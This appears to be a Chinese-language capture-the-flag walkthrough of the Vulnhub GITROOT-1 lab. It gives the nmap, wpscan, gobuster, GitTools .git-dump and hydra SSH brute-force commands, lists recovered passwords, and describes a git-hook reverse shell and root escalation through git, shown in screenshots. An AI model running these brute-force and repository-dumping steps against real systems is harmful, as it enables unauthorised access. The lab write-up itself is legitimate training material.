 ```yaml
---

title: Vulnhub	488 GITROOT-1
date: 2020-07-03 
---
```

考点：githack,githook

靶机链接：<https://www.vulnhub.com/entry/gitroot-1,488/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GITROOT-1  | 10.0.2.37 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.37
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bf:45:f6:b3:e3:ce:0c:69:18:5a:5b:27:e5:d3:9c:86 (RSA)
|   256 b5:d7:45:50:06:c4:e2:3c:28:52:b8:06:26:1f:de:b0 (ECDSA)
|_  256 27:f0:d0:21:13:30:9c:5e:f0:70:a1:d8:5c:a7:8f:75 (ED25519)
80/tcp    open  http      Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.0.4
|_http-title: myblog! &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
11211/tcp open  memcache?
| fingerprint-strings: 
|   RPCCheck: 
|_    Unknown command
```

11211端口 memcache服务 未发现有用信息

### WEB测试

![1](https://www.vulnhub.cn/walkthrough/488/1.webp)

编辑`/etc/hosts` 添加 

```bash
10.0.2.37       wp.gitroot.vuln gitroot.vuln 
```

#### wp.gitroot.vuln

访问<http://wp.gitroot.vuln>

![2](https://www.vulnhub.cn/walkthrough/488/2.webp)

##### wpscan

```bash
$ wpscan --url http://wp.gitroot.vuln --api-token ******************************************* -e
```
未发现有用信息

同时开着爆破

```bash
wpscan --url http://wp.gitroot.vuln/ -U beth -P /usr/share/wordlists/rockyou.txt -t 10
```

后面有突破以后也没爆出来密码，就停掉了

#### gobuster

只能看看是否有其他域名

```bash
gobuster vhost -u gitroot.vuln -w /usr/share/dirb/wordlists/big.txt|grep 200
```

![3](https://www.vulnhub.cn/walkthrough/488/3.webp)

编辑`/etc/hosts` 添加 `repo.gitroot.vuln`

#### repo.gitroot.vuln

![4](https://www.vulnhub.cn/walkthrough/488/4.webp)

分别访问`get.php` 和`set.php`无有用信息

##### dirsearch

![5](https://www.vulnhub.cn/walkthrough/488/5.webp)

存在`.git`信息泄露

##### GitTools

```bash
$ git clone https://github.com/internetwache/GitTools
$ ./gitdumper.sh http://repo.gitroot.vuln/.git/  repo.gitroot.vuln

$ ./extractor.sh ../Dumper/repo.gitroot.vuln/ repo.gitroot.vuln
```

查看代码寻找有用信息

![6](https://www.vulnhub.cn/walkthrough/488/6.webp)

找到用户名`pablo` 密码`ihjedpvqfe` 登录失败

### 暴力破解

爆破`pablo`用户的ssh登录密码

```bash
$ hydra -l pablo   -P /usr/share/wordlists/rockyou.txt -f 10.0.2.37 ssh
```

## 获得权限

### pablo

因为rockyou字典扩增，原本很快可以爆破的密码，现在会时间极长。参考其他报告，这里可获得密码`mastergitar` 

查看文件发现提示

![7](https://www.vulnhub.cn/walkthrough/488/7.webp)

### beth

#### 思路一

找到目录并开启web服务

![8](https://www.vulnhub.cn/walkthrough/488/8.webp)

继续上GitTools

```bash
$ ./gitdumper.sh http://10.0.2.37:9000/.git/ auth
$ ./extractor.sh ../Dumper/auth auth

```

到auth目录本地查找有用信息

![9](https://www.vulnhub.cn/walkthrough/488/9.webp)

#### 思路二

![10](https://www.vulnhub.cn/walkthrough/488/10.webp)

![11](https://www.vulnhub.cn/walkthrough/488/11.webp)

获得密码`r3vpdmspqdb` 

查看home目录，获得三个用户名`beth  jen  pablo`，二选一测试，发现用户名`beth`密码`r3vpdmspqdb`

### jen

![12](https://www.vulnhub.cn/walkthrough/488/12.webp)

查看目录权限

![13](https://www.vulnhub.cn/walkthrough/488/13.webp)

参考[Pwning git: A Proof of Concept (PoC)](https://www.pentestpartners.com/security-blog/pwning-git-a-proof-of-concept-poc/)

![14](https://www.vulnhub.cn/walkthrough/488/14.webp)

本地监听444端口，成功接收反弹shell

![15](https://www.vulnhub.cn/walkthrough/488/15.webp)

![16](https://www.vulnhub.cn/walkthrough/488/16.webp)

![17](https://www.vulnhub.cn/walkthrough/488/17.webp)

## 提权

上[GTFOBins ](https://gtfobins.github.io/gtfobins/git/) 看看git

![18](https://www.vulnhub.cn/walkthrough/488/18.webp)

![19](https://www.vulnhub.cn/walkthrough/488/19.webp)

成功获得root权限
